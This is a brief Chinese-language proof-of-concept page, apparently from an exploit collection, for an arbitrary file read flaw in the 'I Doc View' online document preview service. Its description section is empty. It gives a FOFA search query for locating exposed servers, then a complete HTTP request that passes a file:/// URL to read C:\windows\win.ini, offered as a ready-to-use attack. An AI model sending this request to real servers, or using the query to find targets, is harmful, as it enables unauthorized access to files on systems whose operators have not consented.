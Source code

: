 # DocView在线文档预览任意文件读取

## 1.漏洞描述



## 2.搜索语法

```plain
fofa：title=="在线文档预览 - I Doc View"
```

## 3.漏洞复现

```plain
GET /view/qJvqhFt.json?start=1&size=5&url=file%3A%2F%2F%2FC%3A%2Fwindows%2Fwin.ini&idocv_auth=sapi HTTP/1.1
Host: 127.0.0.1
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close


```

![image](https://github.com/hardog123/poc-exp/assets/170905460/6585a04c-7a56-4a2f-a7cd-1a0604b4b9c5)
